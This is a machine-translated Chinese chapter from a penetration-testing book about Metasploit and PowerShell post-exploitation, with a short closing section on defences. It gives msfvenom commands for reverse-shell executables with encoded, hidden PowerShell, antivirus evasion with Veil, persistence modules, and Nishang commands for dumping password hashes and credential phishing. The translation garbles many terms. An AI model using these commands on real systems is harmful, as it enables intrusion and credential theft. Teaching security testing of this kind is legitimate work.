# 用于后期开发的 Metasploit 和 PowerShell

在前面的章节中，您学习了**PowerShell**作为攻击平台的威力。这只是开始。现在是时候感受它作为执行复杂攻击的完美工具的真正威力了，同时，我们将发现如何与**Metasploit 框架**并肩使用它。

本章将介绍以下主题：

*   元 Sploit 框架
*   PowerShell essentials
*   PowerShell 有效负载模块
*   Nishang PowerShell 用于渗透测试和攻击性安全

# 解剖元 sploit 框架

Metasploit 框架是最著名的开源开发工具。它最初是由 HD Moore 用 Perl 开发的，但后来被转换成 Ruby。这个框架为黑客和渗透测试人员加载了许多有用的功能。要安装 Metasploit 框架，请访问[https://www.rapid7.com/products/metasploit/download/](https://www.rapid7.com/products/metasploit/download/) 并执行以下步骤：

1.  选择您的计划、注册并选择您的操作系统。在本演示中，我使用的是 Windows 64 位试用版：


2.  您将收到一封带有试用激活密钥的电子邮件：



3.  现在将其安装到您的计算机上：



4.  瞧！您可以开始您的开发之旅：


# 元 Sploit 体系结构

Metasploit 体系结构由许多重要组件组成。要充分利用 Metasploit 的功能，需要许多组件：

*   **工具**：这是一套有用的实用工具
*   **插件**：这些是运行时可加载的扩展
*   **库**：这些是有用的 Ruby 库
*   **接口**：这些接口让用户能够以不同的方式访问 Metasploit（例如 CLI 和 web）
*   **模块**：这些是执行特定任务的组件

此图说明了 Metasploit 框架的体系结构：



# 模块

Metasploit 框架使用了许多模块。如果您在 Kali Linux 发行版中使用 Metasploit 框架，则可以列出这些模块。导航到`/usr/share/metasploit-framework/modules`并使用`ls`命令浏览它们，如以下屏幕截图所示：


# 功绩

正如我们在旅途中所讨论的，利用是黑客攻击的一个重要步骤。事实上，Metasploit 为黑客和安全专业人员提供了强大的攻击能力，这要感谢加载的攻击。这一阶段不仅可以通过找到漏洞利用的真实证据来最大限度地降低漏洞工具和扫描器的误报率，还将导致漏洞利用后的问题。在野外有三种类型的利用：

*   **服务器端攻击**
*   **客户端利用**
*   **本地权限提升**

# 有效载荷

有效载荷是利用模块。有两种有效载荷类别：**内联**和**分段**。内联有效载荷（或单个有效载荷）是包罗万象且自包含的。分级有效载荷包含多个有效载荷，称为**分级器**。换言之，全部有效载荷由分段器组成：


Metasploit 加载了各种类型的有效载荷：

*   **绑定外壳**：这些只是监听黑客连接或发送指令。如果受害者直接与机器连接，则它们是一个不错的选择：
    *   **反弹壳**
    *   **听众**
    *   **阶段**
*   **仪表**：是一个专门的指挥环境。它们完全在被利用进程使用的内存中工作。您可以使用许多 MeterMeter 命令进行后期利用，例如：
    *   `sysinfo`
    *   `getsystem`
    *   `getuid`
    *   `reg`
    *   `background`
    *   `ps`
    *   `kill`

作为渗透测试仪，MeterMeters 将为您提供许多其他方便的命令，例如：

*   **偏执狂计量器有效载荷**：这些使用签名 SSL/TLS 证书。
*   **无阶段计量器有效负载**：**这些负载包含运行会话所需的所有内容。**

 **# 辅助设备

辅助设备执行各种任务，包括扫描、DNS 查询等：

*   `auxillary/scanner/portscan/tcp`：连接扫描
*   `auxiliary/scanner/portscan/syn`：半开放同步隐形扫描
*   `auxiliary/scanner/discovery/udp_sweep`：UDP 扫描

# 编码器

编码器用于逃避检测，因为使用 Metasploit 生成有效负载并直接使用它不是明智的决定，因为大多数反恶意软件程序都可以检测到它。因此，由于许多可用编码器，编码器可用于对有效载荷进行编码：


# 不

**NOP**是汇编代码中**无操作**的缩写。它确保任何未使用的空间对于处理器执行仍然有效，不会产生任何影响。在 Metasploit 中，它们用于保持有效负载大小一致。

# 帖子

post 用于后期开发（成功开发系统后）。您可以在`/usr/share/metasploit-framework/modules/post`中找到后期开发模块，也可以在 Metasploit 控制台中键入`show post`：

```
msf> show post
```


要了解更多关于 post 的信息，请使用`info`命令。例如，如果您想了解更多关于`golden_ticket`post 模块的信息，只需键入`info post/windows/escalate/golden_ticket`：



这个神奇的工具还让您可以自由地使用`loadpath`命令加载自己的模块：



# 起动后倾

要启动 Metasploit，需要打开 shell 并键入`msfconsole`。以下屏幕截图表示 Metasploit 的控制台模式（`msfconsole`。如前所述，Metasploit 还有其他接口，如`msfcli`（类似于`msfconsole`，但不是交互式的）、`msfgui`（图形版本）和`armitage`（强大的 GUI 界面）。

以下是`msfcli`的截图：


Metasploit 命令包括：

*   `help`：提供有关如何使用功能的信息
*   `show payloads`：列出可用的有效载荷
*   `show exploits`：列出可用的漏洞
*   `show options`：列出所需的选项
*   `msfupdate`：更新 Metasploit
*   `use`：使用模块
*   `search`：搜索功能
*   `exploit`：启动漏洞攻击


在深入研究 Metasploit 强大的命令之前，让我们先检查 Metasploit 框架组件：

*   `msfpayload`：攻击后要在目标机器上运行的脚本。
*   `msfencode`：用于避免有效载荷检测的惊人实用程序。
*   `msfvenom`：这就像前面两个实用程序的组合。这是 Metasploit 中的一个新功能：


您可以通过键入以下内容来检查可用的有效负载格式：

```
# msfvenom --help-formats
```


例如，如果要生成 Windows 负载，请输入以下内容：

```
# msfvenom -p windows/shell/reverse_tcp LHOST=[YourIPaddress]
```

```
LPORT=8080  - f exe > [A_Specific_PATH]/  payload.exe
```



# 使用 Veil 框架绕过防病毒软件

作为渗透测试人员，请始终记住，您正在模拟真实世界的攻击，而在真实世界中，黑客正试图使用多种技术绕过防病毒保护。**面纱框架**是避免有效负载检测的绝佳工具。要安装 Veil 3.0，您需要从其官方 GitHub 源代码[下载它 https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil) ：

```
# git clone https://github.com/Veil-Framework/Veil
```



现在，您只需从辅助主菜单中选择一项任务：


要生成有效负载，请选择`list`，然后键入`use 1`：


要列出所有可用的有效载荷，请像往常一样使用`list`：



使用`use`命令选择有效载荷：


输入`generate`以创建有效负载：


完成这些选项，您将生成一个不可检测的有效负载，如下所示：



您还可以使用 Metasploit 执行 Nmap 扫描，导出结果并稍后从数据库导入（Metasploit 使用 PostgreSQL 数据库）：

```
Msf> nmap [target] -oX [output]
```


Metasploit 是一个令人难以置信的工具。因此，它提供了大量的能力；其中之一是能够将结果导出到 PostgreSQL 之类的数据库。如果您已经安装了 PostgreSQL，则可以使用 Metasploit 的`db_connect`实用程序验证 Metasploit 与数据库之间的连接：

```
msf> db_connect postgres:myPassword@127.0.0.1/pentester msf> db_status
```

Metasploit 通过添加`searchsploit`实用程序简化了对大量漏洞的搜索。您最多可以添加三个搜索词。

例如，`# searchsploit local`：



# 编写自己的 Metasploit 模块

如前所述，白帽黑客应该知道如何编写自己的工具和脚本。那么，让我们看看如何创建一个简单的 Metasploit 模块。在本演示中，我们将使用 Ruby 作为编程语言，并构建一个 TCP 扫描程序。

首先，创建一个 Ruby 文件：

```
require 'msf/core'
class Metasploit3 <Msf::Auxiliary
include Msf::Exploit::Remote::Tcp
include Msf::Auxiliary::Scanner
def intialize
super(
'Name' => 'TCP scanner',
'Version' => '$Revisiov: 1 $',
'Description' => 'This is a Demo for Packt Readers',
'License' => MSF_LICENSSE
)
register_options([
opt::RPORT(3000)
], self.class)
end
def run_host(ip)
connect()
greeting = "Hello Cybrary"
sock.puts(greeting)
data = sock.recv(1024)
print_status("Received: #{data} from #{ip}")
end
end
```

要测试响应，请创建一个名为`server.txt`的文本文件，并设置 netcat 侦听器。现在，将其保存在`usr/share/metasploit-framework/modules/auxiliary/scanner`：

```
nc -lnvp 3000 < server.txt
```



打开 Metasploit，并键入`use scanner/TCPScanner`：



您可以通过包括`include Msf::Auxiliary::Report`来报告结果。

例如，您可以使用以下方法：

```
results ( :host => rhost, :data => data )
```

# Metasploit 持久性脚本

持久性是每一次成功的黑客攻击的主要需求。Metasploit 框架附带两个主要的持久性脚本：

*   **S4U 持久性（定时持久性）**：使用类型`use exploit/windows/local/s4u_persistence`



*   **卷影复制服务持久性（VSS 持久性）**：要使用它，请键入**`use exploit/windows/local/vss_persistence`**

 **

以下是持久性的一些附加选项：

*   **Metasploit 服务**（或**Metsvc**）
*   **VNCInject**

您可以使用 Windows 二进制文件。要查找这些二进制文件，请转到`/usr/share/windows-binaries path`：


# 带 Metasploit 的武器化动力壳

在前几章中，我们见证了 PowerShell 的威力及其潜力。这只是开始；现在，我们已经准备好将其力量提升到一个新的水平。将 Metasploit 和 PowerShell 的灵活性结合起来是执行更多定制攻击和安全测试的绝佳机会。

# 交互式 PowerShell

PowerShell 攻击已集成到 Metasploit 中。您可以使用`search`命令进行检查：

```
msf> search powershell
```


在[第 4 章](04.html#60KHK0-ccc418ef6725406983cf4586f3600cdf)*Active Directory 攻击*中，您学习了如何使用 PowerShell 执行一些任务。现在是学习如何将 Metasploit 与 PowerShell 结合使用的时候了。为了演示多种用途之一，您可以使用`msfvenom`实用程序将 PowerShell 脚本转换为可执行文件：

```
>msfvenom    -p    windows/powershell_reverse_tcp LHOST=192.168.1.39    LPORT=4444    -f    exe    >    evilPS.exe >msfvenom  -p     windows/exec     CMD=“powershell     -ep     bypass     -W     Hidden     -enc   [Powershell script Here]”    -f    exe    -e    x86/shikata_ga_nai    -o   /root/home/ghost/Desktop/power.exe
```

# 动力普洛伊特

PowerSploit 是一组令人惊叹的 PowerShell 脚本，供信息安全专业人员，尤其是渗透测试人员使用。要下载 PowerSploit，您需要从其官方 GitHub 存储库[中获取它 https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) ：

```
# git clone https://github.com/PowerShellMafia/PowerSploit 
```

克隆项目后，使用`ls`命令列出文件：

从以下屏幕截图中，您可以注意到 PowerSploit 包含许多用于执行许多任务的精彩脚本，例如：

*   `AntivirusBypass`
*   `Exfiltration`
*   ``Persistence``
*   `PowerSploit`
*   `PowerUp`
*   `PowerView`


# Nishang–用于渗透测试的 PowerShell

Nishang 是一个巨大的工具集合，用于在所有渗透测试阶段执行许多任务。您可以从[获取 https://github.com/samratashok/nishang](https://github.com/samratashok/nishang) ：

```
# git clone https://github.com/samratashok/nishang
```

从下载的项目列表中可以看出，Nishang 加载了许多不同的脚本和实用程序，用于在渗透测试任务期间执行许多必需的任务，例如：

*   **权限提升**
*   **扫描**
*   **旋转**

您可以通过使用`ls`命令列出霓裳项目的内容来浏览所有可用的脚本：



让我们探讨一下 Nishang 在 Windows 计算机上的脚本功能：



您可以使用`Import-Module`PowerShell cmdlet 导入所有模块：


哎呀，出问题了！别担心，要使用`Import-Module`，您需要以管理员身份打开 PowerShell，然后键入 `Set-ExecutionPolicy -ExecutionPolicy RemoteSigned`：


然后可以导入模块：


现在，如果您想使用`Get-Information`模块，只需键入`Get-Information`：



如果您想公开 WLAN 密钥，请键入`Get-WLAN-Keys`：


您可以更进一步，在攻击后任务中从目标机器转储密码哈希。感谢`Get-PassHashes`模块，您可以转储密码散列。这是我本地机器的输出：


但是，如果要在获取 shell 后弹出命令，请使用：

```
Powershell.exe –exec bypass –Command “& {Import-Module '[PATH_HERE]/Get-PassHashes.ps1' , Get-PassHashes}”
```

您甚至可以使用`Invoke-CredentialPhish`执行网络钓鱼攻击，就像前面的演示一样。您可以在受害者的机器上运行此攻击：


# 防御 PowerShell 攻击

在前几节中，我们介绍了使用 Metasploit 和 PowerShell 攻击机器的各种技术。现在是学习如何防御和缓解 PowerShell 攻击的时候了。为了防止 PowerShell 攻击，您需要：

1.  实现最新的 PowerShell 版本（本书编写时的版本 5）。要检查，请键入`Get-Host`：



2.  监视 PowerShell 日志。

3.  确保最低权限策略和组策略设置。您可以使用本地组策略编辑器编辑它们。如果您使用的是 Windows 10 企业版，也可以使用`AppLocker`：


4.  使用受约束的语言模式：

```
PS C:\Windows\system32> [environment]::SetEnvironmentVariable('__PSLockdownPolicy', '4', 'Machine')
```

5.  要检查受约束的语言模式，请键入：

```
 $ExecutionContext.SessionState.LanguageMode
```

6.  这样，恶意脚本将无法工作：


# 总结

在本章中，您学习了如何并排使用 Metasploit 和 PowerShell 穿透基础架构，并将您的攻击提升到下一个级别，从侦察到维护访问和持久性。我们研究了体系结构和作战两种武器。下一章将是一次新的体验，届时您将学习如何利用企业 VLAN，并从理论到实际体验。****